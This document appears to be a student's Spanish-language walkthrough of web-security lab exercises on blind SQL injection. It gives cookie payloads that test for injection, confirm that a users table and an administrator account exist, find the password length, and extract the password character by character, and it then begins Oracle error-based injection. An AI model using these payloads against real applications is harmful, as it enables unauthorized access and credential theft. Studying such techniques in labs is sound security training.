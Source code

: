 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretando nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

***Substring sintaxis***

```
SUBSTRING(EXPRESION(COLUMNA),POSICION(EMPIEZA EN 1),LENGTH).

```

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substring(password,1,1) from users where username='administrator')='a'--
```

Se puede usar el ataque cluster Bomb pero solo en Burp Pro 
iteraria sobre los cambpos (select substring(password,*,1) y where username='administrator')='*'


```
'and (select substring(password,2,1) from users where username='administrator')='a'--

'and (select substring(password,2,1) from users where username='administrator')='$a$'--
```


Asi uno por uno iria iterando para sacar el password.

# Blind SQL injection with conditional errors

En este caso la base de datos no regresa el mensaje de welcome back de entrada la inyeccion sql se encuentra en la cookie osea que el camino mas facil es
abrir burp e ir inyectando desde ahi sentencias sql.


## Paso 1

Intentamos ver que error manda como ejecuta la consulta etc

```
TrackingId=ilj71quJBUaTO5Yi'
```

Vemos que ya da error entonces intentamos cerrar la y no nos da error lo que nos dice que esta interpretandola bien.

```
TrackingId=ilj71quJBUaTO5Yi''
```
Nos damos cuenta que para que sirva tenemos que cerrar esa consulta lo que nos lleva a un tema de concatenar datos

```
'||(select '') ||'
```
Esta es  una consulta totalmente valida pero nos devuelve error ¿Porque? Quiza nos enfrentamos a una base de datos
tipo Oracle que tienes que especificar de donde quieres sacar datos probamos...

```
'||(select '' from dual) ||'
' || (select '' from users where rownum=1' ||'
```
# ¿Que ES ROWNUM y ROW_NUMBER() vs ROWNUM

>https://tipsfororacle.blogspot.com/2016/09/difference-between-rownum-and-rownumber.html?m=1

## ROWNUM

Esta intruccion asigna un numero cuando se regresa el resultado en una consulta de 1 hasta n al resultado como un tipo ID pero no se muestra

## ROW_NUMBER()

Esta intruccion de igual manera pone un numero pero la diferencia es que pone un numero en base a un orden ejemplo si tenemos 10 personas 5 primeros hombres y 5 mujeres pondria del 1 al 5 en los hombres y del 1 al 5 en mujeres porque ordeno por genero.

***Por lo tanto***

ROWNUMBER permite regresar de una consulta solo un solo registro en este caso es importante porque al ser una concatencion ' str || (str2) || str3' no rompe 
la consulta.

# Logica

Nos regresa que todo esta bien lo renderiza si ponemos dual1 no lo haria daria ***error***
Entonces aqui tenemos un punto ***como aprovechar** Bueno si hacemos una consulta por ejemplo a la tabla users
deberia de renderizar todo pero como sacamos los datos¿?

Para sacar datos usamos el "CASE WHEN CONDICION1 THEN GENERAERROR ELSE TODOOK" 




